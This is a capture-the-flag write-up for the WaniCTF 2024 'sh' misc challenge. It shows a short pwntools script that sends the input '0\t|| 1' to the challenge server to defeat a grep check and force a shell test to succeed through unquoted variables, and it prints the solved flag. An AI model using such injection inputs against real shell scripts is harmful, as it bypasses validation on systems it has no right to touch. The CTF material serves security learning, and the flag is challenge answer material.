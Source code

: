 ```yaml
---
layout: post
title:  "sh - wanictf 2024"
date:   2024-06-23 00:00:00 -0400
---
```


https://ctftime.org/event/2377

# sh (misc)

shellscript without double quotes

## Solution

```python
from pwn import *

r = remote("chal-lz56g6.wanictf.org", "7580")
r.sendline(f"0\t|| 1")
r.interactive()
```

- `0` to pass the grep check
- `\t` to trick printf, not fully sure how it works but i saw in some testcase on busybox
- `|| 1` to make test always true

## Flag
`FLAG{use_she11check_0r_7he_unexpec7ed_h4ppens}`

shafouz 2024/06/23

